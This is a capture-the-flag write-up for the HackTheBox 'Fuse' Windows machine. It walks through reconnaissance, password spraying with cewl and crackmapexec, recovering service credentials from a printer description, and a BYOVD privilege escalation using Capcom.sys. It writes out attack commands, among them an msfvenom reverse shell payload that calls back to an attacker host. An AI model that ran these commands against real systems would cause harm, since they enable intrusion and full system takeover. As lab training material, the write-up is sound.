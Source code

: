 ```yaml
---
title: "HackTheBox: Fuse - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This is a 'medium' rated HTB Windows challenge featuring an interesting PE technqiue, Bring Your Own Vulnerable Driver (BYOVD).

# Reconnaissance

## Nmap

`nmap -p- -sV -sC -T4 10.10.10.193 -Pn -n -o full_thorough.log
`
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-14 16:25:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  ���7�U       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49675/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:26:02
|_  start_date: 2023-10-14T16:19:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-10-14T09:26:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h33m02s, deviation: 4h02m32s, median: 13m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

From this scan we can add `fabricorp.local` and `fuse.fabricorp.local` to our hosts file.

### SMB

Let's try see if guest/null authentication is enabled.

![1](/assets/images/Fuse/Pasted image 20231014172549.png)

It looks like credentials `:` don't give an error. Let's see if we can enumerate any information from this. 

![[/assets/images/Fuse/Pasted image 20231014172649.png]]

No luck!

### Web

The webserver on port 80 is hosting a PaperCut Print Logging service. From this page we can discover a list of usernames.

![2](/assets/images/Fuse/Pasted image 20231014172739.png)
![3](/assets/images/Fuse/Pasted image 20231014172814.png)
![4](/assets/images/Fuse/Pasted image 20231014172823.png)
![5](/assets/images/Fuse/Pasted image 20231014172832.png)


```
sthompson
bhult
administrator
tlavel
pmerton
bnielson
```

# Initial Access

### AS-REPRoasting

We can check if any of these users are AS-REPRoastable or have the AD attribute `Don't require Kerberos pre-authentication` set. This would allow us to recover a password hash and possibly crack it.

![6](/assets/images/Fuse/Pasted image 20231014173153.png)

No luck. Instead we can try a password spray attack.

### Password Spray

First we need to generate a wordlist. You can create a custom wordlist with `hashcat` rules, or use a tool like `cewl` to crawl the webserver and scrape for possible passwords.

`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 5 -m 5 -x 12 --with-numbers | tee pwds.txt`

Now with the wordlist generated we can attempt to password spray.

`crackmapexec smb fabricorp.local -u users.txt -p pwds.txt`

There was a lot of interesting results for password `Fabricorp01`. It looks like multiple users: `bhult`, `tlavel` and `bnielson` all have this password, but it's expired.

![7](/assets/images/Fuse/Pasted image 20231014180419.png)

We can change passwords using the `impacket-smbpasswd` tool!

![8](/assets/images/Fuse/Pasted image 20231014181036.png)

After changing the password we can login to RPCClient and use the `enumdomusers` command to dump all domain users.

![9](/assets/images/Fuse/Pasted image 20231023130616.png)

We can see there are two printing related user accounts (`svc-print`, `svc-scan`). Let's use the `enumprinters` to see if there is any domain joined printers.

![10](/assets/images/Fuse/Pasted image 20231023145417.png)

Interesting. In the description of the printer we can see credentials `$fab@s3Rv1ce$1`. Let's password spray with this now.

![11](/assets/images/Fuse/Pasted image 20231023145524.png)

![12](/assets/images/Fuse/Pasted image 20231023145540.png)

It looks like `$fab@s3Rv1ce$1` works as a password for both `svc-print` & `svc-scan` over SMB, and also `svc-print` can WinRM onto the box. In `svc-print`'s Desktop folder we can recover the `user.txt` flag!

## Privilege Escalation

Investigating the permissions of the `svc-print` user reveals we have the ability to load drivers with the `SeLoadDriverPrivilege`. 

![13](/assets/images/Fuse/Pasted image 20231024122149.png)

## BYOVD

We can perhaps use a Bring Your Own Vulnerable Driver (BYOVD) technique. BYOVD is an sophisticated technique where adversaries will bring a legitimate signed vulnerable driver onto a comprimised machine, load the driver, and then exploit that drivers vulnerability to execute code in kernel mode with high permissions.

First, I'll use the [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) tool to load our vulnerable driver, `Capcom.sys`. I cloned the `EoPLoadDriver` repositry and compiled the C++ code to make a x64 executable `LoadDrivers.exe`.

![14](/assets/images/Fuse/LoadDriver.png)

Now with the vulnerable driver `Capcom.sys` loaded, we can exploit it!

I started by generating a reverse shell payload:

`msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.10.x.x -f exe -o rev.exe`

With this generated we can clone the exploit source code from [here](https://github.com/tandasat/ExploitCapcom), and edit line 410 from the source code to run our payload, `rev.exe`, upon execution of the Capcom exploit. 

![15](/assets/images/Fuse/Source.png)

![16](/assets/images/Fuse/exploit.png)

![17](/assets/images/Fuse/pe.png)

From the above we can see the reverse-shell listner got a succesful call-back and we got rewarded with a shell as `nt authority\system`!

Hope you enjoyed this writeup!